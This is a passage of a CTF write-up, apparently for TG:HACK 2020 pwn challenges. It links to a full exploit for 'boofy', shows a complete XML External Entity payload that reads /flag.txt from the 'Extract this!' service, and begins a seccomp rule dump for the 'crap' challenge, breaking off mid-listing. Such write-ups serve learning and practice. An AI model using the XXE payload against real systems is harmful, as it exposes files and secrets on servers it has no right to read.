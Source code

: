 
### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/TG:HACK2020/pwn/boofy) 



## Extract this!
### Description

> Extract This!
>
> Author: Einar Antonsen - Chabz#1587
>
> One of our agents managed to install a service on MOTHER's network. We can use it to extract secrets, but she didn't tell me how! Can you figure it out?
>
> ```
> nc extract.tghack.no 6000
> ```
>

### Analysis

It's a xml language parser, so try to [XEE(**X**ML **E**xternal **E**ntity)](https://en.wikipedia.org/wiki/XML_external_entity_attack) Injection.

### Solution

```xml
<?xml version="1.0" encoding="UTF-8" ?> <!DOCTYPE ANY [<!ENTITY xxe SYSTEM "/flag.txt" >]><value>&xxe;</value>
```

>  Is it a really pwn instead of web challenges?



## crap 

so difficult...

I success in local but fail in remote...

### seccomp rules

```nasm
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x12 0xc000003e  if (A != ARCH_X86_64) goto 0020
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x0f 0xffffffff  if (A != 0xffffffff) goto 0020
 0005: 0x15 0x0d 0x00 0x00000002  if (A == open) goto 0019
 0006: 0x15 0x0c 0x00 0x00000003  if (A == close) goto 0019
 0007: 0x15 0x0b 0x00 0x0000000a  if (A == mprotect) goto 0019
 0008: 0x15 0x0a 0x00 0x000000e7  if (A == exit_group) goto 0019
 0009: 0x15 0x00 0x04 0x00000000  if (A != read) goto 0014
 0010: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # read(fd, buf, count)
 0011: 0x15 0x00 0x08 0x00000000  if (A != 0x0) goto 0020
 0012: 0x20 0x00 0x00 0x00000010  A = fd # read(fd, buf, count)
 0013: 0x15 0x05 0x06 0x00000000  if (A == 0x0) goto 0019 else goto 0020
 0014: 0x15 0x00 0x05 0x00000001  if (A != write) goto 0020
 0015: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # write(fd, buf, count)
 0016: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0020
```
